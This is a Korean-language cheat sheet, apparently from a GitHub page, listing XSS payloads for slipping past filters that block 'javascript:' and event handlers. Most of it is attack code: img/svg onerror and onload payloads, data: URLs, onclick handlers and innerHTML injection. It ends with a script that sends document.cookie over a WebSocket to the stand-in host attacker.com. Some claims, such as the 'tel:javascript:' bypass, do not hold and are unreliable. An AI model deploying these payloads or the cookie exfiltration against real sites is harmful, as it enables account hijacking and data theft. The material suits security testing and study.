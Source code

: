 **필터링 우회**와 **스크립트 실행**을 방지하기 위해 활용할 수 있는 **대체 공격 기법**

예시 : \*\*`javascript:`\*\*와 **이벤트 핸들러**가 \*\*`void`\*\*로 자동 변환되고 필터링되는 상황에서 **추가적으로 취약한 공격 구문**을 진단하려면, **자바스크립트**를 직접 실행할 수 있는 다른 우회 방법을 찾아야 함. 이미 **`javascript:`** 프로토콜이 차단된 상태라면, 공격자는 **HTML 요소**, **이벤트 핸들러**, 또는 **웹 기술**을 우회할 수 있는 방법을 찾아야 함.


### 1. **DOM 요소에 대한 공격 (이미지, SVG, IFRAME 등)**

브라우저에서 \*\*`javascript:`\*\*를 필터링하는 경우에도, **HTML 요소**에 내장된 **이벤트 핸들러**나 **태그 속성**을 통해 **자바스크립트 실행**을 유도할 수 있습니다.

#### 예시 공격 코드:

* **`<img>` 태그의 `onerror` 이벤트 활용**: 이미지를 불러오지 못할 경우 **`onerror`** 이벤트를 통해 자바스크립트를 실행할 수 있습니다.

```html
<img src="invalid-image" onerror="alert('XSS - img onerror')">
```

* **`<svg>` 태그 활용**: **SVG** 내에서도 \*\*`onload`\*\*나 **`onerror`** 등의 이벤트를 사용해 XSS를 유발할 수 있습니다.

```html
<svg onload="alert('XSS - SVG')">
    <rect width="100" height="100" style="fill:blue"/>
</svg>
```

* **`<iframe>` 태그 활용**: \*\*`iframe`\*\*을 사용하여 **스크립트 실행**을 유도할 수 있습니다.

```html
<iframe src="javascript:alert('XSS - iframe')"></iframe>
```

### 2. **`data:` URL을 통한 공격**

브라우저가 **자바스크립트**를 처리하지 않도록 필터링하는 상황에서도, **`data:`** URL을 이용해 **이미지**나 **스크립트**를 **inline으로 삽입**할 수 있습니다.

#### 예시 공격 코드:

* **`data:` URL을 통해 악성 스크립트 삽입**:

```html
<img src="data:image/svg+xml,<svg onload=alert('XSS')></svg>">
```

이 코드에서는 **`data:`** URL을 사용하여 **SVG 이미지** 내에서 **`onload`** 이벤트를 트리거하여 자바스크립트가 실행됩니다.

### 3. **특수 프로토콜 사용**

**`javascript:`** 외에도, 다른 프로토콜을 활용한 **우회**가 가능합니다. 예를 들어, **`tel:`**, **`file:`**, \*\*`data:`\*\*와 같은 **다른 프로토콜**을 사용하여 **자바스크립트**를 실행하거나 **악성 행위**를 유도할 수 있습니다.

#### 예시 공격 코드:

* **`tel:` 프로토콜을 통한 XSS 우회**:

  * 일부 브라우저에서는 **`tel:`** 프로토콜을 사용할 수 있습니다. 이를 통해 **자바스크립트 코드**가 실행되도록 할 수 있습니다.

  ```html
  <a href="tel:javascript:alert('XSS')">Click me</a>
  ```

* **`data:` 프로토콜을 통한 스크립트 실행**:

  * **`data:`** 프로토콜을 사용하여 \*\*`alert()`\*\*이나 **스크립트**를 실행할 수 있습니다.

  ```html
  <a href="data:text/html,<script>alert('XSS')</script>">Click me</a>
  ```

### 4. **폼 필드를 통한 악성 스크립트 삽입**

**폼 필드**나 **입력 필드**에 악성 코드를 삽입하는 방법도 있습니다. 사용자가 입력한 값이 **DOM**에 삽입되면 **XSS** 공격이 발생할 수 있습니다.

#### 예시 공격 코드:

* **`<form>` 입력 필드 활용**:

  * 사용자가 입력한 값에 **악성 스크립트**를 삽입하고, 서버에서 이를 **DOM에 반영**할 때 **XSS**를 유발할 수 있습니다.

  ```html
  <form action="search">
      <input type="text" name="q" value="<script>alert('XSS')</script>">
      <button type="submit">Search</button>
  </form>
  ```

### 5. **DOM 삽입 공격 (innerHTML, eval 등)**

`innerHTML`이나 \*\*`eval`\*\*과 같은 JavaScript 메서드를 사용할 때, 악성 코드가 **DOM에 삽입**될 수 있습니다. 이러한 방법은 **자바스크립트 코드**를 실행시키는 방식으로 **XSS**를 유발할 수 있습니다.

#### 예시 공격 코드:

* **`innerHTML`을 통한 DOM 조작**:

  * 악성 스크립트를 \*\*`innerHTML`\*\*을 통해 **DOM에 삽입**할 수 있습니다.

  ```html
  <div id="target"></div>
  <script>
      document.getElementById('target').innerHTML = '<img src="invalid" onerror="alert(\'XSS\')">';
  </script>
  ```

### 6. **DOM 이벤트 우회 (예: `onclick` 등)**

**`javascript:`** 구문이 필터링되어도 \*\*`onclick`\*\*과 같은 **이벤트 핸들러**를 사용하여 자바스크립트를 실행할 수 있습니다. 특히 **`<a>`**, **`<button>`** 등의 **HTML 요소**에 **이벤트 핸들러**를 추가하여 스크립트를 실행할 수 있습니다.

#### 예시 공격 코드:

* **`onclick` 이벤트 핸들러 사용**:

  * **`<a>`** 태그나 **`<button>`** 등에 **`onclick`** 이벤트를 삽입하여 스크립트를 실행할 수 있습니다.

  ```html
  <a onclick="alert('XSS')">Click me</a>
  ```

  * **`<button>` 사용**:

  ```html
  <button onclick="alert('XSS')">Click me</button>
  ```

### 7. **WebSocket을 이용한 정보 유출**

WebSocket을 활용하여 **클라이언트-서버** 간의 실시간 통신을 **악용**할 수 있습니다. WebSocket은 **XSS 우회** 기법으로 사용할 수 있습니다.

#### 예시 공격 코드:

* **WebSocket을 통한 정보 유출**:

  * 악성 코드를 삽입하여 **WebSocket**을 통해 **민감한 정보**를 외부 서버로 유출할 수 있습니다.

  ```html
  <script>
      var ws = new WebSocket('ws://attacker.com/socket');
      ws.onopen = function() { ws.send(document.cookie); };
  </script>
  ```
